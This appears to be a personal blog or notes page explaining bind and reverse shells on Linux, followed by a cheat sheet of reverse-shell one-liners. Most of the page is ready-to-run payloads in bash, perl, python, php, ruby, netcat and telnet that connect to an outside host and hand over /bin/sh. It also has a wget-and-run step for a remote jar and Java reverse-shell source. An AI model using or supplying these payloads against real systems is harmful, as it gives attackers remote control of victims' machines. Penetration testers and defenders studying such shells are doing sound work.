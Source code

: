 ```yaml
---
title: Linux - reverse shell & Bind shell
date: 2020-11-01 11:11:11 -0400
categories: [30System, Sysadmin]
tags: [Linux, Sysadmin]
math: true
image:
---
```


[toc]

---

# Bind shell

Bind shell
- attacker's machine acts as a client
- victim's machine acts as a server opening up a communication port on the victim and waiting for the client to connect to it
- and then attacker issue commands that will be remotely executed on the victim's machine.

> This would be only possible if the victim's machine has a public IP and is accessible over the internet (disregarding all firewall etc. for the sake of brevity).


what if the victim's machine is NATed and hence not directly reachable ?
- attacker's machine is reachable.
- So attacker open a server and let the victim connect to him.
- This is what a reverse shell is.

---

# reverse shell

Reverse Shell
- attacker's machine (has a public IP and is reachable over the internet) acts as a server.
- It opens a communication channel on a port and waits for incoming connections.
- Victim's machine acts as a client and initiates a connection to the attacker's listening server.

Open two tabs in your terminal.
1. open TCP port 8080 and wait for a connection:
2. `nc localhost -lp 8080`
3. Open an interactive shell, and redirect the IO streams to a TCP socket:
4. `bash -i >& /dev/tcp/localhost/8080 0>&1`


```bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1;

# bash -i "If the -i option is present, the shell is interactive."

# >& "redirects both, stdout and stderr to the specified target."

# (argument for >&) /dev/tcp/localhost/8080 is a TCP client connection to localhost:8080.

# 0>&1 redirect file descriptor 0 (stdin) to fd 1 (stdout), hence the opened TCP socket is used to read input.

```

perl shell

```perl
perl -e 'use Socket;$i="1.1.1.1";$p=10086;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};';
```

python shell

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",10086));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

php shell

```php
php -r '$sock=fsockopen("1.1.1.1",10086);exec("/bin/sh -i <&3 >&3 2>&3");';
```

ruby shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","10086");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```

nc shell

```bash
nc -c /bin/sh 1.1.1.1 10086;
```

telnet shell

```
telnet 1.1.1.1 10086 | /bin/bash | telnet 1.1.1.1 10087; # Remember to listen on your machine also on port 4445/tcp

127.0.0.1; mknod test p ; telnet 1.1.1.1 10086 0<test | /bin/bash 1>test;
```

java jar shell

```java
wget https://1.1.1.1:9999/revs.jar -O /tmp/revs1.jar;

java -jar /tmp/revs1.jar;

import java.io.IOException;
public class ReverseShell {
    public static void main(String[] args) throws IOException, InterruptedException {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/10086;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```


---

ref
- [example](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- [2](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

.

